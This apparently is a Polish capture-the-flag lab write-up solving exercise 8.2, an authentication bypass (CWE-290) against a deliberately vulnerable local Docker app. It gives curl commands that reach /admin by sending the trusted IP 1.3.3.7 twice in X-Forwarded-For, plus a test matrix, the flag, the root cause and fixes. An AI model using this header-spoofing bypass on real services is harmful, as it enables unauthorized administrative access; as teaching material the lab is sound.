

# Zadanie 8.2 — Admin Bypass przez zduplikowany X-Forwarded-For (CWE-290)

> **Cel:** dostać się do `/admin` (dozwolony tylko gdy apparent client IP =
> `1.3.3.7`) wykorzystując **niespójną obsługę wielokrotnego nagłówka XFF**.

| | |
|---|---|
| **Aplikacja** | `docker run -dp 5001:8080 docker.io/mazurkatarzyna/cwe-290-ex2:latest` → `http://127.0.0.1:5001` („Spoofy”) |
| **Podatność** | CWE-290, niespójne parsowanie zduplikowanego `X-Forwarded-For` |
| **Zaufane IP** | `1.3.3.7` |
| **Flaga** | `flag{sp00fy_x_forwarded_for}` |

## b) Co NIE działa
```bash
curl -s http://127.0.0.1:5001/admin                               # Access denied
curl -s http://127.0.0.1:5001/admin -H "X-Forwarded-For: 1.3.3.7" # Access denied (!)
curl -s http://127.0.0.1:5001/admin -H "X-Forwarded-For: 9.9.9.9, 1.3.3.7"  # denied
curl -s http://127.0.0.1:5001/admin -H "X-Forwarded-For: 1.3.3.7:1234"      # 400 Invalid XFF
```
Serwer **waliduje** format XFF (stąd 400 dla `1.3.3.7:1234`), ale pojedyncze
`1.3.3.7` nie wystarcza.

## c) Obejście — `1.3.3.7` DWUKROTNIE
```bash
# dwa osobne nagłówki:
curl -s http://127.0.0.1:5001/admin -H "X-Forwarded-For: 1.3.3.7" -H "X-Forwarded-For: 1.3.3.7"
# -> flag{sp00fy_x_forwarded_for}

# lub lista z przecinkiem:
curl -s http://127.0.0.1:5001/admin -H "X-Forwarded-For: 1.3.3.7, 1.3.3.7"
# -> flag{sp00fy_x_forwarded_for}
```



### Matryca testów (jak parsuje serwer)
| Nagłówki | Wynik |
|----------|-------|
| `1.3.3.7` (raz) | Access denied |
| `9.9.9.9` + `1.3.3.7` | Access denied |
| `1.3.3.7` + `9.9.9.9` | Access denied |
| **`1.3.3.7` + `1.3.3.7`** | **flaga** |
| **`1.3.3.7, 1.3.3.7`** | **flaga** |
| `9.9.9.9, 1.3.3.7` | Access denied |

## Na czym polega błąd
Aplikacja czyta XFF w **dwóch różnych miejscach** (np. jedna ścieżka bierze
*pierwszy* wpis/nagłówek, druga *ostatni*) i do autoryzacji wymaga, by **oba**
wskazywały `1.3.3.7`. Przy pojedynczym `1.3.3.7` serwer dokłada jeszcze
rzeczywiste IP klienta (`172.17.0.1`) jako kolejny wpis, więc jedna z kontroli
widzi `172.17.0.1` ≠ `1.3.3.7`. Podanie `1.3.3.7` **dwukrotnie** wypełnia oba
sprawdzane miejsca zaufaną wartością → obejście.

## Jak naprawić
- Spójnie parsować XFF w **jednym** miejscu; nie mieszać „pierwszy/ostatni wpis”.
- Autoryzację opierać na rzeczywistym IP połączenia; XFF ufać tylko od znanego proxy.
- Odrzucać żądania z wieloma/niespójnymi nagłówkami XFF.
